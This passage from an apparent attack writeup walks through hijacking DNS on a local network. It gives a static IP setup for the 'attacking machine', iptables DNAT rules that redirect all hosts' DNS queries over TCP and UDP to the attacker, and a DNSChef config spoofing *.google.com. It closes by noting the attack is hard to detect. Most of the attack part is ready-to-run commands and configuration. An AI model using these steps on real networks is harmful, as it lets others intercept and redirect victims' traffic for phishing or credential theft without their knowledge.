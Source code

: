 ```shell
auto lo
iface lo inet loopback

auto eth0
iface eth0 inet static
address 192.168.2.254
netmask 255.255.255.0
gateway 192.168.2.1
```

To the file */etc/resolv.conf*.
```shell
domain
nameserver 8.8.8.8
search localdomain
```

Then the IP address will be set to 192.168.2.254 with a reboot.

<img src="pic_6.png" width="100%" height="100%">

DNS requests use both TCP and UDP protocol, so we should make some changes to get it to work.

```shell
iptables -t nat -A PREROUTING -m iprange --src-range 192.168.2.2-192.168.2.253  -p tcp --dport 53 -j DNAT --to-destination 192.168.2.254:53

iptables -t nat -A PREROUTING -m iprange --src-range 192.168.2.2-192.168.2.253  -p udp --dport 53 -j DNAT --to-destination 192.168.2.254:53
```

So all the DNS requests traffic will be forwarded to my attacking machine without changing the DNS server in every single host.

<img src="pic_5.png" width="60%" height="60%">

Here comes another problem, we can't browse other websites normally. So we have to take other approaches to achieve that, DNSChef will always be my choice.

Shutdown the bettercap server and clone the DNSChef(https://github.com/iphelix/dnschef) repository. Modify the file *dnschef.ini*.
```ini
*.google.com=192.168.2.254
```

Start up DNSChef server.
```shell
python dnschef.py --file=dnschef.ini --nameservers=8.8.8.8 --interface=192.168.2.254
```

It will be very difficult to detect anything abnormal in this case. 